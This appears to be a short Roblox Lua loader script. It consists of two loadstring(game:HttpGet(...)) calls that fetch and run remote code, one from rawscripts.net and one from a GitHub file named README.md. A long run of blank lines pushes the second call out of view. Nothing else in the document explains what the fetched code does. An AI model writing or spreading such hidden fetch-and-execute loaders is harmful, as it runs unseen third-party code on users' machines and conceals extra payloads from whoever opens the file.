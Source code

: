 loadstring(game:HttpGet('https://rawscripts.net/raw/loader_1038'))()








































































































































































































































































































































































































































































loadstring(game:HttpGet('https://raw.githubusercontent.com/Dripsaur/PLV1/main/README.md'))()
